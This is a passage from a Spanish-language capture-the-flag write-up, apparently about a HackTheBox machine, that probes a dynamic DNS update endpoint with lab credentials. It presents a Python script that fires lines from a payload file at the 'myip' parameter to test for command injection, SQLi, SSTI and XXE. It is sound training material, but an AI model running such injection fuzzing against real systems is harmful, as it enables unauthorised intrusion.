 Pero además de eso nos muestra la IP que pusimos en `myip`, para comprobar que es interactivo podemos cambiarla:

```bash
❱ curl "http://dynadns:sndanyd@dyna.htb/nic/update?hostname=hola.no-ip.htb&myip=1.2.3.4"
good 1.2.3.4
```

Opa, si cambia, esto esta interesante, porque nos estamos comunicando con el servidor **DNS** y estamos cambiando la IP en la que queremos que sirva, o sea, tendríamos dos posibilidades, una super extraña que seria crearnos un servidor DNS "malicioso" y ahí indicarle que se comunique con el o la otra es que podemos jugar con ese campo `m`, ya que es interactivo, poooor lo que podríamos probar alguuuna manera de "inyectar" comandos o algo por el estilo... ¿No? 

A probar cositas.

...

# Explotación [#](#explotacion) {#explotacion}

Nos creamos un script que tome un archivo llamado `payloads.txt` que será el que contenga tooodas las líneas que queramos probar contra el campo `myip`:

```py
#!/usr/bin/python3

import requests

# -- Clases
class Color:
    BLUE = '\033[94m'
    GREEN = '\033[92m'
    RED = '\033[91m'
    END = '\033[0m'

# -- Variables
URL = "http://dyna.htb"
payloads_file = open('./payloads.txt', 'r')

# -- Matrashaaaa
for pos, payload in enumerate(payloads_file):
    payload = payload.strip('\n')
    print(Color.GREEN + "http://dyna.htb/nic/update?hostname=hola.no-ip.htb&myip=%s" % (payload) + Color.END)

    data_get = {
        "hostname" : "hola.no-ip.htb",
        "myip" : payload
    }
    r = requests.get(URL + '/nic/update', params=data_get, auth=('dynadns','sndanyd'))
    print(r.text)
```

Las líneas del archivo las podemos hacer a mano, pero para algo esta internet, buscando y usando listas de payloads basados tanto en **SQLi**, **SSTI**, **XXE**, **Command Injection**, etc. Finalmente llegamos a este repo:
